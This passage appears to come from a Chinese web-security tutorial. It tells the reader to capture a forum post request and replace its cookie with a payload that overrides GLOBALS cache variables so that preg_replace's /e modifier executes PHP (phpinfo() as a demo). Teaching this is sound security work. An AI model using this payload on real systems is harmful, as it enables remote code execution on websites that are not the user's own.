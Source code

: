 [![](assets/1704850598-252c284565d65001f6cde6763e0e885e.png)](https://raw.githubusercontent.com/hongriSec/Web-Security-Attack/master/Part1/Day13/files/assets/YYPBihROEbcafiVd.png)  
安装好后随便访问个帖子，并抓包。  
把 cookie 进行替换

```plain
GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=phpinfo();
```

[![](assets/1704850598-48905d6f1bec7e89f2e5752e465b25f6.png)](https://raw.githubusercontent.com/hongriSec/Web-Security-Attack/master/Part1/Day13/files/assets/HnxCrDDAvqc8YwM6.png)

